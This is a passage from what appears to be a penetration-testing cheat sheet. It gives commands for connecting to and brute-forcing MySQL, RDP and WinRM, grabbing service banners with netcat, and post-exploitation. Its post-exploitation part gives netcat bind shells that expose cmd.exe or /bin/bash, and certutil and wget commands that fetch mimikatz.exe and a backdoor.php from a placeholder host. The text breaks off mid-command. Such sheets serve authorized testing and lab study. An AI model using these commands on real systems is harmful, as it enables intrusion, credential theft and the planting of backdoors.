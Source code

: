 ### MySQL (Port 3306)
- Connect to MySQL:
    ```sh
    mysql -h <hostname> -u root
    mysql -h <hostname> -u root -p
    ```
- Brute force login

### RDP (Port 3389)
- Connect to RDP:
    ```sh
    xfreerdp /v:<ip> /u:<username> /p:<password>
    ```
- Brute force login
- Search exploit for vulnerable version

### WinRM (Ports 5985, 5986)
- Try using the username as the password
- Brute force login

### Other Ports
- Banner grabbing with Netcat:
    ```sh
    netcat <ip> <port>
    ```

## Post-Exploitation

### General Techniques

#### Bind Shell
- Windows (target):
    ```sh
    nc -nvlp <PORT> -e cmd.exe
    ```
- Linux (target):
    ```sh
    nc -nvlp <PORT> -e /bin/bash
    ```
- Linux (attacker):
    ```sh
    nc -nv <IP> <PORT>
    ```
- Windows (attacker):
    ```sh
    nc.exe -nv <IP> <PORT>
    ```

#### Transfer Files
- Windows:
    ```sh
    certutil -urlcache -f http://<host>/mimikatz.exe mimikatz.exe
    ```
- Linux:
    ```sh
    wget http://<host>/backdoor.php
    ```
- Netcat:
    ```sh
    nc -nvlp 123
